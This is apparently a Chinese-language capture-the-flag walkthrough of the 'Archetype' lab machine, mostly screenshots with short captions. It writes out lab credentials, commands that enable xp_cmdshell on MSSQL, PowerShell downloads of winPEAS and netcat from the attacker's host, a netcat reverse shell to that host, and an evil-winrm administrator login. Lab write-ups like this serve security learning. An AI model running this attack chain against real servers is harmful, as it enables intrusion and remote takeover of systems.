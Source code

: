 # Archetype

下载

![image-20240727142012201](http://47.109.51.39/images/typora-user-images/image-20240727142012201.png)



![image-20240727142035966](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727142035966.png)

得到密码：

```
M3g4c0rp123
```

连接mssql

```
impacket-mssqlclient sql_svc:'M3g4c0rp123'@10.129.95.187 -windows-auth
```

![image-20240727141929681](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727141929681.png)

开启xp_cmdshell

```
 use master
 exec_as_login sa
 EXEC sp_configure 'show advanced options', 1
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell', 1;
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell';
```

```
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.16.30:9090/winPEASx64.exe -OutFile C:\Users\Public\Documents\winPEASx64.exe"';
```

![image-20240727145701586](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727145701586.png)



```
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.16.30:9090/nc.exe -OutFile C:\Users\Public\Documents\nc.exe"';
```

![image-20240727145335247](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727145335247.png)

![image-20240727145713344](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727145713344.png)



反弹一个shell

```
exec xp_cmdshell 'c:\users\public\documents\nc.exe -e cmd.exe 10.10.16.30 4444';
```

![image-20240727150201841](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150201841.png)

![image-20240727150237457](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150237457.png)



运行winPEASx64.exe



![image-20240727150542496](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150542496.png)



查看文件

![image-20240727150655092](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150655092.png)



桌面flag

![image-20240727151038760](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727151038760.png)



使用工具Evil-winrm连接远程主机

```
Evil-winrm 是一款使用ruby 语言开发的开源工具。 该工具具有许多很酷的功能，包括使用纯文本密码远程登录、SSL 加密登录、 NTLM 哈希登录、密钥登录、文件传输、日志存储等功能。该开发工具的作者不断更新工具并长期维护更新。 使用 evil-winrm，我们可以获得远程主机的 PowerShell命令终端会话。
```

```
evil-winrm -u administrator -p 'MEGACORP_4dm1n!!' -i 10.129.95.187
```

![image-20240727152123302](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727152123302.png)



![image-20240727152236861](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727152236861.png)

